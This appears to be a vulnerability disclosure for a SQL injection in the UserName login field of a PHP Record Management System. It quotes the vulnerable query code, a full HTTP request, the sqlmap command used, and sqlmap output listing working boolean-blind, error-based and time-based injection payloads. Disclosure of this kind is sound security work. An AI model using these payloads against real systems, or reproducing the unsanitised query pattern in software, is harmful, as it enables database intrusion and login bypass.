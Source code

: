 ### VUL_AUTHOR:netmanzhang

# Record Management System - SQL Injection on (index.php UserName parameter) 

## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

## Version:V1.0

## Tested on: PHP, Apache, MySQL

## Affected Page:
index.php 

On this page, UserName parameter is vulnerable to SQL Injection Attack 

## Source code(Personnel_record_management_system/index.php):
```
$UserName=$_POST['UserName'];
$Password=$_POST['Password'];
$login_query=mysqli_query($conn,"select * from user where UserName='$UserName' and Password='$Password' and User_Type='Admin'");
$count=mysqli_num_rows($login_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 134
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/index.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

Login=&Password=admin&UserName=admin
```
#### -> sqlmap -r 1.txt (above request package)--batch
### Output:
```
---
Parameter: UserName (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: Login=&Password=admin&UserName=admin' RLIKE (SELECT (CASE WHEN (3344=3344) THEN 0x61646d696e ELSE 0x28 END))-- yUhF

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: Login=&Password=admin&UserName=admin' AND (SELECT 1811 FROM(SELECT COUNT(*),CONCAT(0x7176786271,(SELECT (ELT(1811=1811,1))),0x7170767671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qOMN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: Login=&Password=admin&UserName=admin' AND (SELECT 7314 FROM (SELECT(SLEEP(5)))RspW)-- zsho
---
```
